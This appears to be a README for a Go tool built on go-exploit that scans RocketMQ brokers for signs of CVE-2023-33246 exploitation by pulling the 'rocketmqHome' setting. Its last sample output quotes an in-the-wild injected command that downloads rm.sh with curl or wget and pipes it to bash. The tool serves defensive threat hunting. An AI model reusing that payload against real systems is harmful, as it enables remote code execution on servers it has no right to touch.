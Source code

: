 # Fetch Broker Configuration

Fetch Broker Configuration will try to download the RocketMQ broker configuration in order to hunt for indicators of compromise in the `rocketmqHome` variable. The variable is used by various attackers to execute code via [CVE-2023-33246](https://nvd.nist.gov/vuln/detail/CVE-2023-33246). For additional details, see the [VulnCheck blog](https://vulncheck.com/blog/rocketmq-exploit-payloads).

## Compiling

```sh
albinolobster@mournland:~/fetch-broker-conf$ make
gofmt -d -w main.go
golangci-lint run --fix main.go
GOOS=linux GOARCH=arm64 go build -o build/main_linux-arm64 main.go
```

## Usage

The tool is built on top of [go-exploit](https://github.com/vulncheck-oss/go-exploit), so there are multipe ways to provide targets to scan. A full description can be found in the project's [scanning documentation](https://github.com/vulncheck-oss/go-exploit/blob/main/docs/scanning.md). However, the following shows some examples:

### Scanning One Host

```sh
albinolobster@mournland:~/fetch-broker-conf$ ./build/main_linux-arm64 -a -e -rhost 10.9.49.143 -rport 10911 -log-json true | jq 'select(.msg == "Extracted the variable")'
{
  "time": "2023-09-05T05:27:48.567836165-04:00",
  "level": "SUCCESS",
  "msg": "Extracted the variable",
  "rocketmqHome": "/rocketmq-all-5.1.0-bin-release",
  "host": "10.9.49.143",
  "port": 10911
}
```

### Scanning Multiple Hosts

```sh
albinolobster@mournland:~/fetch-broker-conf$ ./build/main_linux-arm64 -a -e -rhosts 10.9.49.143,10.9.49.150 -rport 10911 -log-json true | jq 'select(.msg == "Extracted the variable")'
{
  "time": "2023-09-05T05:34:27.505747211-04:00",
  "level": "SUCCESS",
  "msg": "Extracted the variable",
  "rocketmqHome": "/rocketmq-all-5.1.0-bin-release",
  "host": "10.9.49.143",
  "port": 10911
}
{
  "time": "2023-09-05T05:34:27.802345043-04:00",
  "level": "SUCCESS",
  "msg": "Extracted the variable",
  "rocketmqHome": "/rocketmq-all-5.1.0-bin-release",
  "host": "10.9.49.150",
  "port": 10911
}
```


### Scanning a File of Hosts Using a Proxy

go-exploit provides the ability to scan via a provided target csv, where the csv is: `host, port, anything if ssl is enabled` (although the SSL field is ignored if -a is used). It also provides the ability to scan through a proxy. The command works like so (note that `-a` is SSL autodetection):

```sh
albinolobster@mournland:~/rocketmq-broker-conf$ ./build/main_linux-arm64 -a -e -rhosts-file /tmp/rocketmq.csv -log-json true 2>/dev/null | jq 'select(.msg == "Extracted the variable")'
{
  "time": "2023-08-31T13:45:35.781849255-04:00",
  "level": "SUCCESS",
  "msg": "Extracted the variable",
  "rocketmqHome": "-c $@|sh . echo (curl -s x.x.x.x/rm.sh||wget -q -O- x.x.x.x/rm.sh)|bash;",
  "host": "x.x.x.x",
  "port": 10909
}
```